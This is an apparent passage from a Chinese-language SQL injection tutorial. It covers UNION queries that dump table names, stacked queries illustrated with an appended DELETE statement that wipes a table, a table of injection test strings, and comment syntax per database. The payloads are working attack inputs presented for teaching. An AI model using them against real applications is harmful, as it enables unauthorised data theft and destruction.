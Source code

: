 ```sql
select 1 union select group_concat(TABLE_NAME) from information_schema.tables where table_schema='mysql';
```

![](../.gitbook/assets/image%20%286%29.png)

### 堆叠查询

> 堆叠查询（stacked query）指的是在单个数据库连接中执行多个查询序列

 在SQL中，分号（；）是用来表示一条sql语句的结束。结束一个SQL语句后继续构造下一条语句，如果可以执行，则造成了堆叠注入。 堆叠注入对比联合注入的区别就在于union或者union all执行的语句类型是有限的，而堆叠注入可以执行的是任意的语句。例如服务器端生成的SQL语句为：（因未对输入的参数进行过滤）

```sql
Select * from products where productid=1;DELETE FROM products 1;DELETE FROM products;
```

当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

## 挖掘SQL注入

### 测试注入点

| 测试字符串 | 变种 | 预期结果 |
| :--- | :--- | :--- |
| ' |  | 触发错误。如果成功，数据库将返回一个错误 |
| 1' or '1'='1 | 1'\) or \('1'='1 | 如果成功，将返回表中所有的行 |
| value' or '1'='2 | value'\) or \('1'='2 | 空条件。如果成功，将返回与原来的值相同的结果 |
| 1' and '1' = '2 | 1'\) and \('1' = '2 | 永假条件。如果成功，将不返回表中任何行 |
| 1' or 'ab'='a'+'b | 1'\) or \('ab'='a'+'b | SQL Server字符串连接。如果成功，将返回与永真条件相同的信息 |
| 1' or 'ab'='a' 'b | 1'\) or\( 'ab'='a' 'b | MySQL字符串连接。如果成功，将返回与永真条件相同的信息 |
| 1' or 'ab'='a'\|\|'b | 1'\) or \('ab'='a'\|\|'b | Oracle字符串连接。如果成功，将返回与永真条件相同的信息 |

### 数据库注释语句

| 数据库 | 注释 | 描述 |
| :--- | :--- | :--- |
| Sal server和 Oracle | -- \(double bash\) | 用于单行注释 |
|  | /\* \*/ | 多行注释 |
| Mysql | -- \(double bash\) | 用于单行注释。要求第二个dash后面跟一个空格或控制字符（如制表符、换行符等） |
|  | \# | 单行注释，但是在url中，\#号作为锚点链接，所以使用前需要URL编码 |
|  | /\*  \*/ | 用于多行注释 |



